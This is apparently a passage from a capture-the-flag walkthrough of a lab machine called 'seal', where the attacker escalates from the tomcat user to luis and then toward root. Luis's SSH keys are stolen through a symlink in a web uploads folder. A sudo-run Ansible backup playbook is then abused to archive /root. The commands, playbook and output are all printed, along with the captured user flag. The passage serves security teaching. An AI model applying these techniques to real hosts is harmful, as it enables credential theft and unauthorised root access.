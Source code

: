 ```
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ln -s /home/luis/.ssh/ $PWD
```

This will link the `.ssh/` folder of the `luis` user to the `uploads/` folder. Since the `run.yml` tasks file of the `ansible-playbook` command will copy and synchronize all of the files in the `/opt/backups/archives` folder and the `/var/lib/tomcat9/webapps/ROOT/admin/dashboard/` folder, the `.ssh` folder will also be copied. This will allow us to then download the `.ssh/` folder and get user access: 

luis@seal:~$ cat user.txt
7e5ea8501d48fb6af9ab1f91be7dbc96



![Untitled](/assets/20210722232631.png)

```yml
- hosts: localhost
  become: yes
  become_user: root
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    become: true
    archive:
      path: "/root/"
      dest: "/home/luis/root.tar.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/
```

```bash
luis@seal:~$ sudo ansible-playbook /opt/backups/playbook/run.yml 
[WARNING]: provided hosts list is empty, only localhost is available. Note that the
implicit localhost does not match 'all'

PLAY [localhost] *******************************************************************

TASK [Gathering Facts] *************************************************************
ok: [localhost]

TASK [Copy Files] ******************************************************************
changed: [localhost]

TASK [Server Backups] **************************************************************
changed: [localhost]

TASK [Clean] ***********************************************************************
changed: [localhost]

PLAY RECAP *************************************************************************
localhost                  : ok=4    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

luis@seal:~$ ls
gitbucket.war  root.tar.gz  user.txt
```

![Untitled](/assets/20210722235051.png)